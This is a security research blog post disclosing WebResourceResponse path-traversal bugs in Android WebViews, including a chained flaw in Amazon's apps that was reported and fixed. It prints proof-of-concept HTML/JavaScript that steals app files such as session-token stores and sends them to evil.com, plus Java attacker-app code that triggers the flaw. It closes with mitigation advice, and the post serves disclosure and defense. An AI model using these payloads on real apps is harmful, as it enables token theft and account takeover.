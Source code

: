 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [blog.oversecured.com](https://blog.oversecured.com/Android-Exploring-vulnerabilities-in-WebResourceResponse/)

> When it comes to vulnerabilities in WebViews, we often overlook the incorrect implementation of

When it comes to vulnerabilities in WebViews, we often overlook the incorrect implementation of `WebResourceResponse` which is a WebView class that allows an Android app to emulate the server by returning a response (including a status code, content type, content encoding, headers and the response body) from the app’s code itself without making any actual requests to the server. At the end of the article, we’ll show how we exploited a vulnerability related to this in Amazon apps.

If you’re a developer, you can integrate Oversecured into your CI/CD to proactively secure your apps against these vulnerabilities. We have solutions that monitor apps continuously and alert you if any new vulnerabilities are detected. [Contact us](https://oversecured.com/contact-us) to learn more and get a demo.

If you’re a security researcher, you can automate the process by using Oversecured’s mobile app scanner to scan for these bugs. All you have to do is [sign up](https://oversecured.com/sign-up) and upload your app’s files. Our scanner will take care of the rest.

[](#what-is-webresourceresponse)[What is `WebResourceResponse`?](#what-is-webresourceresponse)

The WebView class in Android is used for displaying web content within an app, and provides extensive capabilities for manipulating requests and responses. It is a fancy web browser that allows developers, among other things, to bypass standard browser security. Any misuse of these features by a malicious actor can lead to vulnerabilities in mobile apps.

One of these features is that a WebView allows you to intercept app requests and return arbitrary content, which is implemented via the `WebResourceResponse` class.

Let’s look at a typical example of a `WebResourceResponse` implementation:

```
WebView webView = findViewById(R.id.webView);
webView.setWebViewClient(new WebViewClient() {
   public WebResourceResponse shouldInterceptRequest(WebView view, WebResourceRequest request) {
       Uri uri = request.getUrl();
       if (uri.getPath().startsWith("/local_cache/")) {
           File cacheFile = new File(getCacheDir(), uri.getLastPathSegment());
           if (cacheFile.exists()) {
               InputStream inputStream;
               try {
                   inputStream = new FileInputStream(cacheFile);
               } catch (IOException e) {
                   return null;
               }
               Map<String, String> headers = new HashMap<>();
               headers.put("Access-Control-Allow-Origin", "*");
               return new WebResourceResponse("text/html", "utf-8", 200, "OK", headers, inputStream);
           }
       }
       return super.shouldInterceptRequest(view, request);
   }
});


```

As you can see in the code above, if the request URI matches a given pattern, then the response is returned from the app resources or local files. The problem arises when an attacker can manipulate the path of the returned file and, through XHR requests, gain access to arbitrary files.

Therefore, if an attacker discovers a simple XSS or the ability to open arbitrary links inside the Android app, they can use that to leak sensitive user data – which can also include the access token, leading to a full account takeover.

[](#proof-of-concept-for-an-attack)[Proof of Concept for an attack](#proof-of-concept-for-an-attack)

If you already have the ability to execute arbitrary JavaScript code inside a vulnerable WebView, and assuming there is some sensitive data in `/data/data/com.victim/shared_prefs/auth.xml`, then the Proof of Concept for the attack will look like this:

```
<!DOCTYPE html>
<html>
<head>
   <title>Evil page</title>
</head>
<body>
<script type="text/javascript">
   function theftFile(path, callback) {
     var oReq = new XMLHttpRequest();

     oReq.open("GET", "https://any.domain/local_cache/..%2F" + encodeURIComponent(path), true);
     oReq.onload = function(e) {
       callback(oReq.responseText);
     }
     oReq.onerror = function(e) {
       callback(null);
     }
     oReq.send();
   }

   theftFile("shared_prefs/auth.xml", function(contents) {
       location.href = "https://evil.com/?data=" + encodeURIComponent(contents);
   });
</script>
</body>
</html>


```

It should be noted that the attack works because `new File(getCacheDir(), uri.getLastPathSegment())` is being used to generate the path and the method `Uri.getLastPathSegment()` returns a decoded value.

However, policies like CORS still work inside a WebView. Therefore, if `Access-Control-Allow-Origin: *` is not specified in the headers, then requests to the current domain will not be allowed. In our example, this restriction will not affect the exploitation of path traversal, because `any.domain` can be replaced with the current scheme + host + port.

[](#an-overview-of-the-vulnerability-in-amazon’s-apps)[An overview of the vulnerability in Amazon’s apps](#an-overview-of-the-vulnerability-in-amazon’s-apps)

We scanned the Amazon Shopping and Amazon India Online Shopping apps and found two vulnerabilities. They were chained to access arbitrary files owned by Amazon apps and then reported to the Amazon VRP on December 21st, 2019. The issues were confirmed fixed by Amazon on April 6th, 2020.

*   The first was opening arbitrary URLs within the WebView through the `com.amazon.mShop.pushnotification.WebNotificationsSettingsActivity` activity:

![](https://blog.oversecured.com/assets/images/amazon_url.png)

– and the second was stealing arbitrary files via `WebResourceResponse` in the `com/amazon/mobile/mash/MASHWebViewClient.java` file:

![](https://blog.oversecured.com/assets/images/amazon_client.png)

Two checks take place in the `com/amazon/mobile/mash/handlers/LocalAssetHandler.java` file:

One is in the `shouldHandlePackage` method:

```
   public boolean shouldHandlePackage(UrlWebviewPackage pkg) {
       return pkg.getUrl().startsWith("https://app.local/");
   }


```

And the second is in the `handlePackage` handler:

```
   public WebResourceResponse handlePackage(UrlWebviewPackage pkg) {
       InputStream stm;
       Uri uri = Uri.parse(pkg.getUrl());
       String path = uri.getPath().substring(1);
       try {
           if (path.startsWith("assets/")) {
               stm = pkg.getWebView().getContext().getResources().getAssets().open(path.substring("assets/".length()));
           } else if (path.startsWith("files/")) {
               stm = new FileInputStream(path.substring("files/".length())); // path to an arbitrary file
           } else {
               MASHLog.m2345v(TAG, "Unexpected path " + path);
               stm = null;
           }
           //...
           Map<String, String> headers = new HashMap<>();
           headers.put("Cache-Control", "max-age=31556926");
           headers.put("Access-Control-Allow-Origin", "*");
           return new WebResourceResponse(mimeType, null, 200, "OK", headers, stm);
       } catch (IOException e) {
           MASHLog.m2346v(TAG, "Failed to load resource " + uri, e);
           return null;
       }
   }


```

[](#proof-of-concept-for-amazon)[Proof of Concept for Amazon](#proof-of-concept-for-amazon)

Keeping the above-mentioned vulnerabilities and checks in mind, the attacker’s app looked like this:

```
   String file = "/sdcard/evil.html";
   try {
       InputStream i = getAssets().open("evil.html");
       OutputStream o = new FileOutputStream(file);
       IOUtils.copy(i, o);
       i.close();
       o.close();
   } catch (Exception e) {
       throw new RuntimeException(e);
   }

   Intent intent = new Intent();
   intent.setClassName("in.amazon.mShop.android.shopping", "com.amazon.mShop.pushnotification.WebNotificationsSettingsActivity");
   intent.putExtra("MASHWEBVIEW_URL", "file://www.amazon.in" + file + "#/data/data/in.amazon.mShop.android.shopping/shared_prefs/DataStore.xml");
   startActivity(intent);


```

The apps also had a host check that was bypassed by us. This check could also be bypassed using the `javascript:` scheme which removed any requirements to have SD card permissions for making a file.

The file `evil.html` contained the exploit code:

```
<!DOCTYPE html>
<html>
<head>
   <title>Evil</title>
</head>
<body>
<script type="text/javascript">
   function theftFile(path, callback) {
     var oReq = new XMLHttpRequest();

     oReq.open("GET", "https://app.local/files/" + path, true);
     oReq.onload = function(e) {
       callback(oReq.responseText);
     }
     oReq.onerror = function(e) {
       callback(null);
     }
     oReq.send();
   }

   theftFile(location.hash.substring(1), function(contents) {
       location.href = "https://evil.com/?data=" + encodeURIComponent(contents);
   });
</script>
</body>
</html>


```

As a result, on opening the attacker’s app, the `DataStore.xml` file containing the user’s session token was sent to the attacker’s server.

[](#how-to-prevent-this-vulnerability)[How to prevent this vulnerability](#how-to-prevent-this-vulnerability)

While implementing `WebResourceResponse`, it is recommended to use [`WebViewAssetLoader`](https://developer.android.com/reference/androidx/webkit/WebViewAssetLoader), which is a user-friendly interface. It allows the app to safely process data from resources, assets or a predefined directory.

It can be extremely helpful to detect this bug early. Oversecured’s mobile app scanner lets users do that, and notifies them in the scan report about all the vectors mentioned above. [Contact us](https://oversecured.com/contact-us), and we can provide you with a demo to try it out.